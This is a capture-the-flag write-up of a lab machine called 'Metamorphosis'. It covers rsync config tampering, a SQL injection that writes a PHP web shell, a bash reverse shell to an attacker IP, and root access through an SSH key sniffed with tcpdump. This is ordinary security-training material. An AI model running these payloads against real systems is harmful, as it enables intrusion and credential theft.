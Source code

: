 ```yaml
---
date: 2021-04-22 14:17:25
layout: post
title: "Metamorphosis"
subtitle:
description:
image: /writeup/assets/img/metamorphosis/main.jpg
optimized_image:
category:
tags:
author:
paginate: false
---
```


Start with nmap scan, you'll find several ports open.
```bash
nmap -T4 -p- -A 10.10.232.226

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 19:10 IST
Nmap scan report for 10.10.232.226
Host is up (0.42s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
|_  256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open  rsync       (protocol version 31)
Service Info: Host: INCOGNITO; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 1s, median: 0s
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-04-22T13:40:34+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-22T13:40:34
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.29 seconds
```

Requesting the website hosted on port 80 gives default apache2 page and fuzzing the site for more directories and pages reveals `/admin/` directory which gives 403 Forbidden with a comment on the page.
![placeholder](/writeup/assets/img/metamorphosis/comment.png "Comment")

Moving on other ports, rsync is running on 873. Trying to connect to that shows that a directory **Confs** is located is present.
![placeholder](/writeup/assets/img/metamorphosis/rsync.png "Comment")

Copying all the contents of the directory to the local system with
```bash
rsync -av rsync://10.10.232.226/Conf ./
```
One of the file in the directory names webapp.ini looks suspicious as it contains a variable name env which might be regualting whether site runs in development mode or production mode as pointed by the comment earlier.
```ini
[Web_App]
env = prod
user = tom
password = theCat

[Details]
Local = No
```
Changing the variable value of **env** variable from **prod** to **dev** and then updating the directory on the remote server using rsync with
```bash
rsync -av ./ rsync://10.10.232.226/Conf
```
makes the `/admin` directory to give a different output than 403 Forbidden.
![placeholder](/writeup/assets/img/metamorphosis/unlocked.png "Admin")

Moreover, with further testing it reveals that the input text box is vulnerable to sql injection and can be used to drop a shell with
```
" UNION SELECT 1,"<?php system($_REQUEST['cmd']);?>",3 INTO OUTFILE "/var/www/html/cmd.php" -- ' 
```

Requesting the `http://10.10.232.226/cmd.php?whoami` shows that the reverse shell works.
![placeholder](/writeup/assets/img/metamorphosis/shell.png "Shell")

Using the following payload in the intercepted burpsuite request to the page gives reverse shell
```
bash+-c+'bash+-i+>%26+/dev/tcp/10.4.14.69/8888+0>%261'
```

>Reverse Shell can also be achieved automatically using sqlmap

Got the user.txt and can change to tom user using password as **password** and even if you don't change the user to tom then also things work same.

Moving forward, the tcpdump binary contains special permissions as visible from the command `getcap -r / 2>/dev/null`
![placeholder](/writeup/assets/img/metamorphosis/cap.png "Cap")

Since, tcpdump contains cap_net_raw permission, sninffing of network traffic is possible.

Running, `tcpdump -A -n -i 3` for some time gives us the private key for the root user.
![placeholder](/writeup/assets/img/metamorphosis/id_rsa.png "Key")

Copy and save the key to a file, change permission of the file `chmod 600 [name_of_file]` and then use it to ssh into root user `ssh -i [name_of_file] root@10.10.232.226`. 
